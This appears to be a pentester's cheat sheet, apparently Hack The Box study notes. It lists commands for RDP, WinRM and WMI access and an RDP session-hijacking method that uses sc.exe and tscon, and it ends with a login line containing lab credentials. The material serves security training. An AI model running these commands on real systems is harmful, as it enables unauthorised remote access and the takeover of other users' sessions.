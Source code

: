 Port: 3389
#### Windows Remote Management

|**Command**|**Description**|
|---|---|
|`rdp-sec-check.pl <FQDN/IP>`|Check the security settings of the RDP service.|
|`xfreerdp /u:<user> /p:"<password>" /v:<FQDN/IP>`|Log in to the RDP server from Linux.|
|`evil-winrm -i <FQDN/IP> -u <user> -p <password>`|Log in to the WinRM server.|
|`wmiexec.py <user>:"<password>"@<FQDN/IP> "<system command>"`|Execute command using the WMI service.|


#### RDP Session Hijacking

##### Check for Sessions

```cmd
query user
```

##### Create hijack service
```cmd-session
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```
##### start service 
```cmd-session
C:\htb> net start sessionhijack
```

#### RDP Session with shared Folder
```shell
xfreerdp /u:mlefay /p:"Plain Human work!" /v:172.16.5.35 /drive:linux,/home/htb-ac-711424/skill /dynamic-resolution
```
